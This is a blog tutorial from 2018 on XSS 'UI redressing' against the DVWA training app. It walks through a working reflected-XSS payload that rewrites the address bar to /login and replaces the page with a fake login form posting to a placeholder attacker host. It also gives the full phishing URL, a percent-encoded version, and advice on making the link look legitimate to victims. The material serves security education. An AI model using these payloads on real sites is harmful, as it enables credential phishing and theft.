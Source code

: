 ```yaml
---
title: "xss_ui_redressing"
date: 2018-11-28
tags: ["web"]
weight: 3
categories: ["web"]
aliases: ["/xss-ui-redressing"]
author: "Travis"
summary: "Moving beyond document.cookie xss and rewriting the entire browser window"
---
```

---

### Moving Beyond alert('xss')

Most people know all about making an alert box pop or getting a cookie sent to an external site with `document.cookie`. It makes since, it is easy to demo and for the most part makes for a great proof of concept.

Unfortunately these sometimes fail to showcase some of the more potentially devious outcomes from having a site that is vulnerable to XSS.

I recently came across a form of XSS that is called ui redressing. As I researched and learned more about it I came to see how malicious a XSS attack could be.

---

### What is UI Redressing?

Redressing leverages features of html5 to call the history.replaceState or history.pushState functions to the browser. These functions allow a script to re-write what is presented in the URL bar after a page has loaded.

A script, rewrites the url presented in the address bar after loading the page. I'll let that sink in for a minute. I first came across this method randomly on [swisskeyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#ui-redressing) xss injection GitHub page.

From the example on the swisskyrepo's page history.replaceState() is leveraged to replace the page with a /login.

*Note: history.pushState() could also be used.*

When the script is ran the url bar will be re-written from:

```
http://dvwa/vulnerabilities/xss_r/?name=yogi#
```

to something a bit more devious:

```
http://dvwa/login
```

So what? Whats the big deal, the url is re-written but the page is still the page it should be. Right? Maybe, unless the page gets changed with the document.body.innerHTML property....

---

### In Practice

Up until this point we have seen how UI redressing can be used to change the address bar. Let's leverage that and also re-write the html page to something a little bit more fitting of a login url. Using the script below we can change the URL to http://dvwa/login and also create a new html page for it with document.body.innerHTML.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to acces
s secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Usernam
e: <input type='text'>Password: <input type='password'><input value='submit' type='su
bmit'></form>"
</script>
```

That's it. We can send a Phishing email with a url that is vulnerable to a reflected XSS and include that code as our payload.

```html
http://dvwa/vulnerabilities/xss_r/?name=<script>history.replaceState(null, null, '../../../login');document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to access secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Username: <input type='text'>Password: <input type='password'><input value='submit' type='submit'></form>"</script>
```

Even though the page that is expected to load looks similar to this:

![UI Redressing 1](images/xssuiredressing1.png "img-fluid")


When the victim clicks the link the login page below will load:

![UI Redressing 2](images/xssuiredressing2.png "img-fluid")

What about site certificates? It is not a problem. The victim is still on the real site. They are just at a destination that does not really exist except for them.

Wont they notice something weird about the url? Perhaps, I do not recommend sending a url that is full of html and javascript code. URL encoding it to something like this is much more favorable.

```
http://dvwa/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%68%69%73%74%6f%72%79%2e%72%65%70%6c%61%63%65%53%74%61%74%65%28%6e%75%6c%6c%2c%20%6e%75%6c%6c%2c%20%27%2e%2e%2f%2e%2e%2f%2e%2e%2f%6c%6f%67%69%6e%27%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%69%6e%6e%65%72%48%54%4d%4c%20%3d%20%22%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%63%65%6e%74%65%72%3e%3c%68%32%3e%50%6c%65%61%73%65%20%6c%6f%67%69%6e%20%74%6f%20%61%63%63%65%73%73%20%73%65%63%75%72%65%20%70%6f%72%74%69%6f%6e%20%6f%66%20%6f%75%72%20%73%69%74%65%2e%3c%2f%68%32%3e%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%53%6f%6d%65%4d%61%6c%69%63%69%6f%75%73%4c%69%73%74%65%6e%65%72%27%3e%55%73%65%72%6e%61%6d%65%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%74%65%78%74%27%3e%50%61%73%73%77%6f%72%64%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%3e%3c%69%6e%70%75%74%20%76%61%6c%75%65%3d%27%73%75%62%6d%69%74%27%20%74%79%70%65%3d%27%73%75%62%6d%69%74%27%3e%3c%2f%66%6f%72%6d%3e%22%3c%2f%73%63%72%69%70%74%3e
```

This url looks much more 'official'. I imagine most people would see this url and think: *"oh, just your typical super long url, much be official. Let me check my training. Yup goes to the domain I expect, yup certificate is valid, must be a real site. Safe to login."* I think that the long url lends itself towards being perceived as more legitimate.